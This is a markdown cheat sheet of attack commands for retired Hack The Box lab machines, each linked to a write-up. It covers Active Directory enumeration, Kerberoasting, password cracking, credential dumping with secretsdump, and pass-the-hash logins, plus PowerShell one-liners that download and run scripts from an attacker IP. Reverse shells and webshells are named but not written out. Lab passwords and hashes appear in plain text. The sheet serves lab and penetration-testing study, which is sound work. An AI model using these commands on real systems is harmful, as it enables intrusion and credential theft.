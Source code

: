 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```


# Win-Forest
https://0xdf.gitlab.io/2020/03/21/htb-forest.html
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
enum4linux 10.10.10.161
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hashsvc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
./smbserver.py share . -smb2support -username df -password df
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```


# Win-Active
https://0xdf.gitlab.io/2018/12/08/htb-active.html
```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
john hashadmin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
./psexec.py Administrator:Ticketmaster1968@10.10.10.100
```


# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
Read GMSA Password
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```


# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```





# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```


# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```


# Lin-Haircut
```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```

# Lin-Backdoor
https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
```
nmap -p- 10.10.11.125
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://backdoor.htb/wp-content/FUZZ -e .aspx,.php,.txt,.html
WP Plugins-EbookDL Dir Trav
gdbserver RCE
ps & screen
```
